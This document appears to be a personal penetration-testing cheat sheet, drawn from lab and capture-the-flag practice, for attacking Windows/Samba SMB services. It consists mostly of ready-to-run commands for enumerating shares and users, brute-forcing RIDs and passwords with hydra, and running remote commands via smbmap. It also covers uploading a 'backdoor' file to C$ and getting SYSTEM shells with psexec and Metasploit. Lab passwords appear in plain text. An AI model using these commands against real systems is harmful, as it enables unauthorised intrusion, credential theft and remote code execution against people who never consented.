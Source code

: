 Smb-double-pulsar-backdoor —>nmap
vuln-ms17-010 =eternal blue —>nmap
linux/samba/is_known_pipename  => This above module triggers an arbitrary shared library load vulnerability in Samba versions 3.5.0 to 4.4.14

Access shares, get user name, brute force user and login again with bruteforced users.
Tips:- enum users and later brute force

## Listing Shares
- nmap --script smb-enum-shares.nse -p445 192.144.106.3
- auxiliary/scanner/smb/smb_enumshares
- enum4linux -S 192.144.106.3
- smbclient -L 192.144.106.3 -N

If username and password is provided, more enum can be done…
![](../../Attachements/Pasted%20image%2020250223174953.png)

## NULL SESSION

rpcclient -U "" -N 192.126.66.3
![](../../Attachements/Pasted%20image%2020250223175027.png)
srvinfo = gives server info in RPC CLIENT
enumdomusers = enum users
lookupnames admin = sid of admin


## ENUM4LINUX
```bash
enum4linux -a 1.1.1.1 = Automated script for enumuration
enum4linux -u administrator -p vagrant -U 1.1.1.1
```

## NetExec
    The network execution tool
```bash
netexec smb 10.10.11.35 -u 'atish' -p '' --shares => guest access

netexec smb 10.10.11.35 -u '.' -p '' --shares =>guest access

netexec smb 10.10.11.35 -u '.' -p '' --rid-brute => Enumerate users by bruteforcing the RID on the remote target

netexec smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares

netexec smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
(rid brute will give all user/group,, this command will give user and description both...)

```

### --rid-brute
```
netexec smb 10.10.11.35 -u '.' -p '' --rid-brute
```
![](../../Attachements/Pasted%20image%2020250223190204.png)

Here above --rid-brute work using RPCCLIENT method:::
```
rpcclient -U 'CICADA.htb/' 10.10.11.35
lookupnames administrator
lookupsid 7346338473874878blah-blah
```
![](../../Attachements/Pasted%20image%2020250223190123.png)
Whenever it is unknown, it displays the name
### Enum users::
```
netexec smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```
![](../../Attachements/Pasted%20image%2020250223193738.png)




## NMAP
```bash 
- ls -al /usr/share/nmap/scripts/ | grep smb
- nmap -p 445 --script smb-os-discovery 10.10.125.84
- **`nmap -p 445 --script smb* 10.10.125.84` ⇒runs all script**
- nmap -p 445 --script smb-enum-shares 10.10.125.84 ⇒shares
- nmap -p445 --script smb-protocols 10.0.17.200
- nmap -p445 --script smb-security-mode 10.0.17.200
```

 ### Nmap enum using credentials
 ```bash
- nmap -p445 --script smb-security-mode 10.0.17.200
- nmap -p445 --script smb-enum-shares --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
- nmap -p445 --script smb-enum-users --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
- nmap -p445 --script smb-server-stats --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
- nmap -p445 --script smb-enum-domains--script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
- --script smb-enum-groups
- --script smb-enum-domains
- --script smb-enum-services
- nmap -p445 --script smb-enum-shares,smb-ls --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
```

## SMBCLIENT
```bash
smbclient -L //10.10.11.35 -N

smbclient -L ////192.126.66.3// -N =Nullsession, list shares

smbclient //10.10.125.84/ADMIN$ = connect to the share with annon

smbclient //10.10.125.84/ADMIN$ -N

smbclient -U '.' //10.10.125.84/ADMIN$ => random anon session

smbclient //10.10.125.84/IPC$ = connect to IPC

smbclient //192.208.227.3/public -N => connected

smbclient //10.10.125.84/BillySMB ⇒ To access SMB Shares

**`TIP:` Sometime Some shares wont be listed but can be viewed using above command.**
```
![](../../Attachements/Pasted%20image%2020250223175631.png)
Access share once password is known::
```
smbclient -U 'david.orelious' //10.10.11.35/dev
```
![](../../Attachements/Pasted%20image%2020250223194133.png)
mget = command to download file
![](../../Attachements/Pasted%20image%2020250223185217.png)


# SMBMap
Allows users to enumerate samba share 
Allows file upload/download/delete
```bash
smbmap -u guest -p "" -d . -H 10.10.125.84 =shares also

smbmap -u administrator -p smbserver_771 -d . -H 10.0.28.123 = admin will have more privilege

smbmap -H 10.0.28.123 -u administrator -p smbserver_771 -x 'ipconfig’ => can be used to run commands

smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' -L = List drives on local host

smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' -r 'C$’ = List content of C

smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' --upload '/root/backdoor' 'C$\backdoor' ⇒ Upload File in C drive

smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' -r 'C$’ ⇒ Verify upload

smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' --download 'C$\flag.txt' ⇒ Download File

- smbmap -H 192.212.251.3 -u admin -p password1 ⇒ ONCE CRED IS KNOWN
```

# Bruteforce
```bash
hydra -l admin -P /usr/share/password.txt 10.10.10.10 smb
hydra -L User.txt -P /usr/share/password.txt 10.10.10.10 smb
```


# Exploiting SMB with PsExec
![](../../Attachements/Pasted%20image%2020250223181056.png)
![](../../Attachements/Pasted%20image%2020250223181136.png)
![](../../Attachements/Pasted%20image%2020250223181214.png)
![](../../Attachements/Pasted%20image%2020250223181247.png)
![](../../Attachements/Pasted%20image%2020250223181306.png)

## Mannual
We need to have credetials to run this too. We can bruteforce the credentials before using this tool.
psexec.py is a tool in python to authenticate with the system.
```bash
psexec.py Administrator@10.2.29.107 cmd.exe
```
![](../../Attachements/Pasted%20image%2020250223181540.png)
![](../../Attachements/Pasted%20image%2020250223181551.png)
nt authority\system = highest authority

## Metasploit
Now lets use psexec in **`METASPOLIT
NOTE: when we use [psexec.py](http://psexec.py) it wont upload anything to target but metaspolic psexec upload malacious code in the target.
![](../../Attachements/Pasted%20image%2020250223181727.png)
![](../../Attachements/Pasted%20image%2020250223181736.png)
![](../../Attachements/Pasted%20image%2020250223181749.png)


